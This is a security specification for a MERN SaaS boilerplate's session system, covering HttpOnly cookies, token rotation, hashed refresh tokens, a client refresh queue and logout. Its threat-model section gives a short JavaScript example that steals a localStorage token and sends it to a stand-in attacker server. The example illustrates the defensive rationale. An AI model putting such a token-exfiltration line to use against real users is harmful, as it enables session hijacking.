

# Cryptographic Security Model & Token Rotation Specification

This document provides a comprehensive security engineering explanation of the SaaS Pro session management system, cryptographic cookie architecture, and threat mitigation mechanisms.

---

## 1. Threat Modeling & Defense-in-Depth Rationale

### The Vulnerability of Client-Side Storage (`localStorage` / `sessionStorage`)

Traditional Single-Page Applications (SPAs) frequently store JSON Web Tokens (JWTs) in browser `localStorage` or `sessionStorage`. Under this pattern:
1. Any cross-site scripting (XSS) vulnerability, malicious third-party npm package, or compromised browser extension can execute:
   ```javascript
   const token = localStorage.getItem('token');
   fetch('https://attacker-controlled-server.com/collect', { method: 'POST', body: token });
   ```
2. Tokens stored in `localStorage` have zero defense once an attacker achieves script injection.

### The Cryptographic Cookie Solution

To achieve complete XSS token immunity, SaaS Pro enforces **HttpOnly, Secure, SameSite=Strict** cookies for all session data:

```
Set-Cookie: saas_auth_session=<access_jwt>; Max-Age=900; Path=/; HttpOnly; SameSite=Strict; Secure
Set-Cookie: saas_refresh_session=<refresh_jwt>; Max-Age=604800; Path=/; HttpOnly; SameSite=Strict; Secure
```

- **`HttpOnly`**: Prevents client-side scripts from reading or modifying the cookie via `document.cookie`. XSS payloads cannot exfiltrate the raw token.
- **`Secure`**: Ensures cookies are transmitted solely over TLS (HTTPS) connections, preventing man-in-the-middle (MitM) eavesdropping.
- **`SameSite=Strict`**: Instructs browsers never to attach the cookie to cross-site requests, completely mitigating Cross-Site Request Forgery (CSRF).

---

## 2. Dual-Token Architecture & Rotation Dynamics

The platform decouples short-lived authorization from long-lived session persistence:



### Token Specifications

| Token | Identifier | Lifespan | Storage | Cryptographic Signing |
|---|---|---|---|---|
| **Access Token** | `saas_auth_session` | 15 Minutes | `HttpOnly` Cookie / Header | HMAC-SHA256 (`JWT_SECRET`) |
| **Refresh Token** | `saas_refresh_session` | 7 Days | `HttpOnly` Cookie & Hashed in DB | HMAC-SHA256 (`REFRESH_TOKEN_SECRET`) |

---

## 3. Database Session Record Hashing (SHA-256)

Refresh tokens stored in MongoDB are never persisted in plaintext. Storing raw tokens creates a vulnerability where a database leak immediately compromises all active sessions.

In [`server/utils/tokenService.js`](file:///c:/Users/Admin/OneDrive/Desktop/Source%20Code/MERN%20SaaS%20Boiler-Plate/server/utils/tokenService.js), each token is hashed via SHA-256:

```javascript
const hashToken = (token) => {
  return crypto.createHash('sha256').update(token).digest('hex');
};
```

When verifying rotation in [`server/controllers/authController.js`](file:///c:/Users/Admin/OneDrive/Desktop/Source%20Code/MERN%20SaaS%20Boiler-Plate/server/controllers/authController.js):
1. The incoming cookie token is hashed via `hashToken(refreshToken)`.
2. The user document is queried to verify if the computed hash exists in `user.refreshTokens` and `expiresAt > Date.now()`.
3. Expired tokens are automatically pruned during every successful login and rotation cycle.

---

## 4. Client Axios Silent Refresh Queue

To prevent race conditions when multiple parallel HTTP requests encounter an expired access token, [`client/src/utils/api.js`](file:///c:/Users/Admin/OneDrive/Desktop/Source%20Code/MERN%20SaaS%20Boiler-Plate/client/src/utils/api.js) maintains a queued promise buffer:

```javascript
let isRefreshing = false;
let failedQueue = [];

api.interceptors.response.use(
  (response) => response,
  async (error) => {
    const originalRequest = error.config;
    if (error.response?.status === 401 && !originalRequest._retry && !originalRequest.url?.includes('/api/auth/login')) {
      if (isRefreshing) {
        return new Promise((resolve, reject) => {
          failedQueue.push({ resolve, reject });
        }).then(() => api(originalRequest));
      }
      originalRequest._retry = true;
      isRefreshing = true;

      try {
        await api.post('/api/auth/refresh-token', {});
        processQueue(null);
        return api(originalRequest);
      } catch (refreshErr) {
        processQueue(refreshErr);
        window.dispatchEvent(new Event('auth:session-expired'));
        return Promise.reject(refreshErr);
      } finally {
        isRefreshing = false;
      }
    }
    return Promise.reject(error);
  }
);
```

- When the first request receives a `401`, it locks `isRefreshing = true` and triggers `/api/auth/refresh-token`.
- Concurrent parallel requests are placed into `failedQueue`.
- Once the cookie is refreshed, the entire queue is resolved simultaneously without causing authentication flickers.

---

## 5. Revocation & Multi-Device Logout

Session revocation is explicitly supported via `POST /api/auth/logout`:
- **Single-Device Logout**: Pulls the specific token hash from `user.refreshTokens` and instructs the client browser to purge both cookies with `Max-Age: 0`.
- **All-Devices Logout (`logoutAll: true`)**: Empties `user.refreshTokens = []`, immediately invalidating all active sessions across all devices.
